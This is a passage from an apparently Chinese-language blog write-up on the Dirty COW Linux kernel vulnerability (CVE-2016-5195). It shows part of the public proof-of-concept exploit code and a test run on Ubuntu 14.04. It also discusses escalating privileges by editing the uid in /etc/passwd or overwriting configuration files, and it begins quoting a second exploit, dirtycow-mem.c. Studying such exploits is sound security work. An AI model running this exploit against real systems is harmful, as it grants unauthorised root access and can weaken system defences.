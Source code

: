 */
/*
You have to open with PROT_READ.
*/
  map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
  printf("mmap %x\n\n",map);
/*
You have to do it on two threads.
*/
  pthread_create(&pth1,NULL,madviseThread,argv[1]);
  pthread_create(&pth2,NULL,procselfmemThread,argv[2]);
/*
You have to wait for the threads to finish.
*/
  pthread_join(pth1,NULL);
  pthread_join(pth2,NULL);
  return 0;
}
{% endhighlight %}

### PoC Test

Environment:

Ubuntu 14.04 LTS  
Linux Kernel 3.13.0-98-generic

测试按照 PoC 源代码首部注释所述进行：

![0]({{ site.url }}/images/dirtycow/dirtycow-0.png)

![0]({{ site.url }}/images/dirtycow/dirtycow-1.png)

![0]({{ site.url }}/images/dirtycow/dirtycow-2.png)

![0]({{ site.url }}/images/dirtycow/dirtycow-3.png)

多次测试后发现写入不太稳定，比如上例中 **hello,world** 并没有完全写入。这可能会给提权带来一些困难，比如我们要在当前用户下把 `/etc/passwd` 中对应 uid 改成 0，这可能需要配合一些其他技巧。但是洞确实挺厉害。即使不用做提权，用来修改一些重要的配置文件也是不错的，或许可以降低整个系统的防御能力。

### Exp及原理

下面是 Github 上的 dirtycow-mem.c，在下个部分中我将对此代码进行测试。

{% highlight c %}
/*
 * CVE-2016-5195 dirtypoc
 *
 * This PoC is memory only and doesn't write anything on the filesystem.
 * /!\ Beware, it triggers a kernel crash a few minutes.
 *
 * gcc -Wall -o dirtycow-mem dirtycow-mem.c -ldl -lpthread
 */

#define _GNU_SOURCE
#include <err.h>
#include <dlfcn.h>
#include <stdio.h>
#include <fcntl.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <limits.h>
#include <pthread.h>
#include <stdbool.h>
#include <sys/mman.h>
